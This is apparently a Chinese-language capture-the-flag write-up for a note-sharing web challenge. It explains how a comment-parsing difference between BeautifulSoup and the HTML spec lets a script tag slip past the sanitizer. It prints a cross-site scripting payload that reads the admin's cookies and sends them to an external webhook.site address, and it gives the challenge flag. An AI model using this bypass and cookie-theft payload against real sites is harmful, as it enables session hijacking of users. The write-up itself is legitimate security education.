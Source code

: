 # 题目描述

Check out my new note service! It supports all the formatting you'll ever need.

Flag is in admin's cookies.

# 解决方案

从提供的源码中可以看到，服务器会使用[BeautifulSoup](https://www.crummy.com/software/BeautifulSoup/)解析用户提供的数据，然后只允许几个安全的tag，且不能有任何属性值，因此直接注入payload是不可能成功的，这里绕过的思路是BeautifulSoup的解析和最新版的[HTML规范](https://html.spec.whatwg.org/multipage/syntax.html#comments)有些许不同的地方，比如注释的语法，在BeautifulSoup看来`<!--><script>alert(1)</script>-->`中的`><script>alert(1)</script>`是注释部分，在最新版的HTML规范看来，`<!-->`是一个注释，后面内容就不再是注释，可以拿到admin的cookie的payload如下：

```html
<!--><script>
let x = document.cookie;
var xmlHttp = new XMLHttpRequest();
xmlHttp.open( "GET", 'https://webhook.site/3f4cdacb-fff8-4284-89e2-c9e74212f26b?a=' + x, false );
xmlHttp.send( null );
console.log(xmlHttp.responseText);
</script>-->
```
因为admin的请求没有使用同源限制，因此上述payload可以直接拿到cookie，如果开启了同源限制，需要使用[DNS重绑定技术](https://www.freebuf.com/articles/web/318273.html)绕过同源限制。

```
irisctf{security_by_option}
```